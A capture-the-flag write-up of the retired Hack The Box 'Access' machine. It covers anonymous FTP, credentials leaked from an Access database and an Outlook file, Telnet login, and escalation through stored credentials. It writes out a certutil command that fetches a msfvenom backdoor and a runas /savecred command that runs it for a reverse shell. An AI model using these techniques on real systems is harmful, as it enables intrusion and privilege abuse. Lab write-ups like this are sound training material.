Hello Guys , I am [**Faisal Husaini**](https://twitter.com/FaisalDFrz) and this is my writeup on Medium for Access machine which has retired. My username on HTB is [\*\*\*“faisalelino”](***https://www.hackthebox.eu/home/users/profile/7404) .

The IP for this box is 10.10.10.98, so let’s get started

#### NMAP Results



We see that 3 Ports are open , Port 21 , 23 and 80. , I didn’t got much interesting from the Port 80 running http service. So I went to check for Port 21 which is FTPD. Although from Port 80 we came to know that this box is either Windows 7 or Windows Server 2008 R2.

#### Port 21 — FTP

We try to login to FTP using the default ftp command in linux following with the IP of the box. Also using the “anonymous” username login with blank password.



We successfully logged through the ftp and now let’s see what does it contains.

> We use the “**dir**” command to list files and directories in ftp



We see two directories , let’s check both of them respectively.



In the Backup directory, we see a file named backup.mdb , so we get the file using the “**get**” ftp command which downloads the file to our host machine.

> Remember to download the file in binary mode like I did above

Let’s check the contents of the other directory “**Engineer**”



We got both the files , let’s examine the file.

#### Examining The Files



We see that the **backup.mdb** is a Microsoft Access Database and “Access Control.zip” is a password protected zip file.

So I copied these files to my Windows 10 machine and opened the “Access Control.zip” file using Winrar and saw it is password protected , so I went for the backup.mdb file using Microsoft Access 2007



We see there was a entry named “auth_user” which contained some username and password.

We used these password to connect through Telnet and all of these entries failed , but when I see the username engineer , I came to remember that there was a Folder named “Engineer” which contained the “Access Control.zip” file , maybe this password is for the zip file , so we used this password and bingo it was the password for the zip file.

The Zip File contained a file named “Access Control.pst”, which is a Outlook file. So I opened it through a PST File Viewer on Windows and see an email like below.



It says the password for the “security” account has been changed to “**4Cc3ssC0ntr0ller**”. Let’s try these credentials to connect through the Telnet as from the NMAP Scan we saw Port 23 for Telnet was Open.

#### Connecting Through Telnet

We connect to Telnet using the “**telnet**” command on Linux



Bingo!!! We got connected as “**security**” user , let’s get the user flag.

**User Flag**

The user flag on Windows boxes on HTB is usually stored in the Desktop folder of the user.



Here is the User Flag , now we go for the privelege escalation.

#### Privelege Escalation

So as we are on the box , we try some commands on it to see what we get , first we check whether the box has any **_Stored Credentials_**

> We use the command “cmdkey /list” for checking it



We see that the Administrator account has a saved credentials on this machine. After searching on google about how to use , we came to know about the “**_runas_**” command.

From this command , we can run any program as the Administrator account , so let’s create a backdoor from **msfvenom **and then transfer it on the box.



We created our backdoor named as “backdoor.exe” , now we will transfer this to the Windows box.

While I was trying powershell to get this file on the box. I was facing alot of problems , so I used “**certutil**” to transfer the file.

> Command Used → **certutil -urlcache -split -f <URL> <OUTPUT>**



We see that the backdoor was successfully uploaded to the box as **backdoor.exe** and we also confirmed that by using **dir** command.

Now we trigger this backdoor as Administrator using the savecreds on this box and also with the “**runas**” command. But first we setup our listener on **msfconsole**.



All set with listener , now we use “runas” to run the backdoor.exe program as Administrator and get back reverse shell.

> Command Used → **runas /savecred /noprofile /user:ACCESS\Administrator backdoor.exe**



As soon as we run the command on the box , we get a meterpreter shell back , let’s now dig into it.



We see that now we have access to the administrator account.

Let’s now get the root flag , which is usually located on the Desktop folder of any particular user on Windows boxes in HTB.



Bingo , we got the root flag.

#### **Some Interesting Stuff**

As you saw we got the root flag , however , there was a bit tricky thing on this box , let me show you.

We go back to our meterpreter and get NT Authority\System using the meterpreter “**getsystem**” command and then try to get the flag.



As you can see that now we are NT Authority\System using the getsystem command on meterpreter. Now let’s try to read the root flag.



As you can see that it returns Access is denied , even though we have high privileges. As the root flag had ownership of the Administrator account , we couldn’t read it as NT Authority\System.

P.S → I was not able to read the root flag as ACCESS\Administrator too at the beginning , then after resetting the box , it was fine.

#### Vulnerabilities Used To Solve This Box

Low Level Priveleges → Telnet Password Leakage in the Access File which we got from FTP using anonymous login

Admin Level Priveleges → Stored Credentials

# References

> [**Runas - Run under a different user account - Windows CMD - SS64.com**](https://ss64.com/nt/runas.html)
>
> <small>Syntax RUNAS [ [/noprofile | /profile][/env] [/savecred | /netonly] ] / user: UserName program RUNAS [ [/noprofile | /profile][/env] [/savecred] ] / smartcard [/user: UserName] program Display the trust levels that can be used: RUNAS/showtrustlevels Run a program at a given TrustLevel: RUNAS / trustlevel: TrustLevel program Key /noprofile Do not load the user's profile.</small>

> [**certutil**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
>
> <small>Certutil.exe is a command-line program that is installed as part of Certificate Services. You can use Certutil.exe to dump and display certification authority (CA) configuration information, configure Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains.</small>